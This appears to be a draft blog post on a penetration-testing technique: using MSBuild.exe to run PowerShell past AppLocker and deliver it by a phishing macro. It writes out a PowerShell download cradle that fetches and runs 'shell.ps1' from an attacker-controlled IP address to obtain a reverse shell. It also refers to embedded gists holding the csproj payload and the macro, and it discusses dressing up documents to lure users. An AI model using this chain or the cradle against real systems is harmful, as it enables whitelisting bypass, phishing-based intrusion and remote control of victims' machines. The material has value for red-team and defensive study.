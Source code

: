 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: false
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and despite simulated phishing campaigns and training there can never be complete assurance against credential divulgence or execution of malicious code.  So it is critically important that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only _known good_ applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C#, in order to instantiate a Powershell runspace using System.Management.Automation.dll. The powashell.csproj file below by Casey Smith builds upon Jared Atkinson's And Justin Warner's work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

Within this we execute our PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. But now we need a means of delivering the project file and executing MSBuild. The macro below will download the csproj file to disk In order for the user to execute the macro the document needs to be dressed appropriately. John Lambert regularly shares interesting phishing lures and payloads, and we... 

https://pbs.twimg.com/media/DWHHdvJV4AAvl22.jpg


<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>
